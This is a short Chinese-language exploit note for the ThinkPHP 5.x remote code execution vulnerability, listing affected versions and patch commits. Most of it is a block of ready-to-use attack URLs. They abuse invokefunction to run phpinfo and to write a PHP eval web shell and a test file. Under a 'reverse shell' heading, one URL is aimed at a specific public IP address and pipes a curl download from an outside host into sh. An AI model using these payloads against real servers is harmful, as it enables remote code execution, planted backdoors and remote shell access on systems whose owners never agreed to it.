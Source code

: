 ## 5.x RCE
https://learnku.com/articles/21227  
范围： 5.x < 5.1.31, <= 5.0.23  
补丁：https://github.com/top-think/framework/commit/b797d72352e6b4eb0e11b6bc2a2ef25907b7756f  
https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815  
payload: 
```
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

http://localhost:9096/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_GET[%22code%22])?^%3E%3Eshell.php

http://localhost:9096/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../test.php&vars[1][]=<?php echo 'ok';?>
shell反弹：
http://121.12.172.119:30022//?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=curl+https%3A%2F%2Fshell.now.sh%2F154.223.145.173%3A1337+%7C+sh

```